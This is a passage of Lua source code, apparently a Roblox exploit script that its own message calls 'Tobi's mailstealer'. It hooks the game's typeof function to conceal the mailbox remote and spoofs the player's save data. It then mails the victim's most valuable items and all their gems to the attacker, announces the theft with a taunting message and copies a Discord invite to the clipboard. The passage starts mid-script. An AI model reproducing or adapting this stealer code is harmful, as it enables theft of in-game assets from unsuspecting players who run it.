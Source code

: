 end

if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
        getFucked = true
		local Mailbox = game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Send")
        for i, Func in ipairs(getgc(true)) do
            if typeof(Func) == "function" and debug.info(Func, "n") == "typeof" then
                local Old
                Old = hookfunction(Func, function(Ins, ...)
                    if Ins == Mailbox then
                        return tick()
                    end
                    return Old(Ins, ...)
                end)
            end
        end
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")
    local blob_b = require(blob_a).Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    require(blob_a).Get = function(...)
        return blob_b
    end

    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)

    spawn(function()
        SendMessage(plr.Name, GemAmount1)
    end)

    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("All your items just got stolen by Tobi's mailstealer!\n Join discord.gg/GY2RVSEGDT")
    setclipboard("discord.gg/GY2RVSEGDT")
end
